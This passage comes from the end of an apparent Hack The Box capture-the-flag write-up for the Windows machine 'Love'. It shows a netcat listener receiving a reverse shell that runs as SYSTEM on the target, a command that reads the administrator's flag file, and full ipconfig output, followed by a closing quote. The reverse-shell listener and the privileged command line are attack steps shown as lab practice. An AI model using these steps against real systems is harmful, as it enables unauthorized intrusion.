 Obtained the reverse shell:
```bash
┌──(kali㉿kali)-[~/…/HTB/box/Love/exploit]
└─$ nc -nlvp 10099                                                                            
listening on [any] 10099 ...
connect to [10.10.14.105] from (UNKNOWN) [10.129.128.110] 64526
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami && hostname && type C:\users\administrator\desktop\root.txt && ipconfig /all
whoami && hostname && type C:\users\administrator\desktop\root.txt && ipconfig /all
nt authority\system
Love
909c70fd07a0<redacted>

Windows IP Configuration

   Host Name . . . . . . . . . . . . : Love
   Primary Dns Suffix  . . . . . . . :
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : .htb

Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : .htb
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-83-FA
   DHCP Enabled. . . . . . . . . . . : Yes
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 10.129.128.110(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Lease Obtained. . . . . . . . . . : Wednesday, May 5, 2021 5:41:36 AM
   Lease Expires . . . . . . . . . . : Wednesday, May 5, 2021 12:21:52 PM
   Default Gateway . . . . . . . . . : 10.129.0.1
   DHCP Server . . . . . . . . . . . : 10.129.0.1
   DNS Servers . . . . . . . . . . . : 1.1.1.1
                                       8.8.8.8
   NetBIOS over Tcpip. . . . . . . . : Enabled
```

![Pasted image 20210505210114.png]({{page.screenshots}}Pasted image 20210505210114.png)


## Trophy
```
You could claim that anything's real if the only basis for believing in it
is that nobody's proved it doesn't exist!
- J.K. Rowling
```

{% include share.html %}

